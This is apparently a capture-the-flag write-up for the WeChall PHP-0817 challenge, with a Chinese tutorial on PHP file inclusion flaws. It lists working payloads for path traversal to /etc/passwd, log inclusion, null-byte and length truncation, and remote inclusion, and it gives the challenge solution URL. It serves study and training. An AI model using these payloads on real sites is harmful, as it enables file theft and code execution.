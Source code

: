 # PHP-0817 Exploit

I have written another include system for my dynamic webpages, but it seems to be vulnerable to LFI.
Here is the code:

```php
<?php
if (isset($_GET['which']))
{
        $which = $_GET['which'];
        switch ($which)
        {
        case 0:
        case 1:
        case 2:
                require_once $which.'.php';
                break;
        default:
                echo GWF_HTML::error('PHP-0817', 'Hacker NoNoNo!', false);
                break;
        }
}
?>
```
Your mission is to include [solution.php](http://www.wechall.net/challenge/php0817/solution.php).
Here is the script in action: [News](http://www.wechall.net/challenge/php0817/index.php?which=0), [Forum](http://www.wechall.net/challenge/php0817/index.php?which=1), [Guestbook](http://www.wechall.net/challenge/php0817/index.php?which=2).

## LFI
本地文件包含漏洞[LFI: Local FIle Inclusion](http://gynvael.coldwind.pl/download.php?f=PHP_LFI_rfc1867_temporary_files.pdf)

&ensp;&ensp;&ensp;&ensp;文件包含通常又有本地文件包含（Local File Inclusion）和远程文件包含(Remote File Inclusion)之分。`allow_url_fopen`和`allow_url_include`是决定包含属于本地文件包含（LFI）还是远程文件包含 （RFI）的条件，在PHP4中则只有一个`allow_url_fopen`选择。其中`allow_url_fopen`和 `allow_url_include`为0n的情况为远程文件包含漏洞，相反为本地文件包含漏洞。

文件包含漏洞有以下几种格式：

### 1. 基本的本地文件包含
```php
<?php 
        include("includes/" . $_GET['file']); 
?>
```
漏洞利用方法：

 - 直接引用当前目录下的文件`?file=.htaccess`
 - 便利目录`?file=../../../../../../../../../etc/passwd`
 - 包含注入的php代码文件。`?file=../../../../../../../../../var/log/apache/error.log`
 - [其他路径文件](http://wiki.apache.org/httpd/DistrosDefaultLayout)

[暴走无双官网文件包含可泄漏服务源码](http://www.wooyun.org/bugs/wooyun-2010-054964)

### 2. 需要截断的文件包含
漏洞代码：
```php
include("$_GET('dir')/test.php")
```
要想利用文件包含就要突破后面test.php的限制。要实现截断有三种方法：

#### 2.1 %00 截断（`Magic_quote_gpc`为off的情况下）
例子：http://127.0.0.1/include.php?dir=shell.txt%00
[PHPYun本地文件包含造成任意代码执行](http://www.wooyun.org/bugs/wooyun-2010-042144)
[彩乐乐彩票网存在本地文件包含漏洞](http://www.wooyun.org/bugs/wooyun-2010-052112)
### 2.2 使用？截断（用于远程文件包含） 
例子：http://127.0.0.1/include.php?dir=http://127.0.0.1/shell.txt?
例子：http://127.0.0.1/include.php?dir=http://127.0.0.1/shell.txt%23
### 2.3 通过使路径长度达到一定长度限制时截断(均适用)
通常Windows的截断长度为240，Linux的截断长度为4096
由于Windows和Linux的文件名都有一个最大路径长度(MAX_PATH)的限制，因此当提交文件名的长度超过了最大路劲长度限制是就会截断后面的内容，从而达到文件包含的效果。
[至顶网某站点任意文件读取导致敏感信息泄漏(截断技巧)](http://www.wooyun.org/bugs/wooyun-2010-052704)
### 2.4 点号截断（当`magic_quote_gpc`为off的时候，仅限windowns服务器）
例子：http://127.0.0.1/include.php?dir=../../../../ect/passwd……………………………………………………………………


## Solution
直接访问：http://www.wechall.net/challenge/php0817/index.php?which=solution









